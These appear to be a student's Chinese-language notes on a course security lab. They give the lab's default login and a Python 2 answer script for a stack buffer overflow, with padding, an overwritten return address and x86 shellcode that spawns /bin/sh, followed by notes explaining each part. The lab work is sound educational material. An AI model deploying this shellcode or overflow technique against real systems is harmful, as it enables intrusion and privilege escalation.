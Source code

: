 而传输层引入了端口号 port 来解决多个进程的问题

## project踩坑记录

### project1

初次登录需要

* 用户名 customizer
* 密码 customizer

然后会给出新的登录信息

**remus ans**

```c
#!/usr/bin/env python2

shellcode = "\x6a\x32\x58\xcd\x80\x89\xc3\x89\xc1\x6a\x47\x58\xcd\x80\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x54\x5b\x50\x53\x89\xe1\x31\xd2\xb0\x0b\xcd\x80"

buffercode = "AAAAAAAAAAAAAAAAAAAA"

addresscode = "\x80\xfc\xff\xbf"

print(buffercode + addresscode + shellcode)
```

**In this project, you will need to** **​`chmod`​**​ **any new scripts you create.**

* shellcode 是我们需要它执行的‘恶意’代码
* addresscode 是shellcode的地址 我们用addresscode 替代 rip 使其跳转到 shellcode
* buffercode 是用来覆盖buffer，sfp，以及一些其它的内容，其所需要替代的长度等需要在gdp调试中查看

​![1708589644882](assets/1708589644882-20240222161431-4e8pa8s.png)​
